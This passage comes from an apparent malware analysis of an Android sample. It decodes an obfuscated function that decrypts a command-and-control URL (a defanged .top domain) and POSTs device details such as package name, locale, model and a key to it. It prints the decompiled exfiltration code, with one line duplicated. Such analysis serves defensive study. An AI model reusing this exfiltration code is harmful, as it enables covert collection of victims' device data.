 This function prepares and sends an http request.
This function is confusing because it uses two variables called effluvias and effluvias2 with values “alt” and “ky” respectively, ( Effluvias is the same name as the function that is used to decipher strings). 
A URL is constructed by concatenating the result of the Uriiah method applied to the result of the bedamned method with the key “min” and the string “callnew.php”.
On the Shared Preference we can see

```Java

<string name="min">zH7cPW3ZEHjVTG9k7cxAEFPMXyfMjJ9RsvkyHSqCvNV5HAZ/FWvMgQ==</string>
```
Deciphered with Uriiah function give us:
https://yukoramparata[.]top/zamra/aaa/ , adding the string “callnew.php”: 
https://yukoramparata[.]top/zamra/aaa/callnew.php


The rarefeatured function appears to prepare and send an HTTP POST request including a set of data retrieved from the SharedPreference

```Java

    public static void rarefeatured(Context context, String e) {
    public static void rarefeatured(Context context, String e) {
        String effluvias = ("alt");
        String effluvias2 = ("ky");
        try {
            HashMap<String, String> p = new HashMap<>();
            p.put(effluvias2, bedamned(context, effluvias2));
            p.put(("tg"), hagiography(bedamned(context, ("tag"))));
            p.put(("cy"), bedamned(context, ("locale")));
            p.put(("model"), bedamned(context, ("smm")));
            p.put(("nw"), ("true"));
            p.put(effluvias, bedamned(context, effluvias));
            p.put(("eys"), e);
            p.put(("rpn"), bedamned(context, ("psv")));
            veepees.undissuadably(context, Uriiah(bedamned(context, ("min"))) + ("callnew.php"), p);
        } catch (Exception e2) {
        }
    }
```

|  |  |
| --- | --- |
|alt    | com.melting.mantaught |
|tg     | 0401EN                |
|cy     | en                    |
|model  | 13 A50                |
|nw     | true                  |
|ky     | 0hh2fpkr5zt72         |

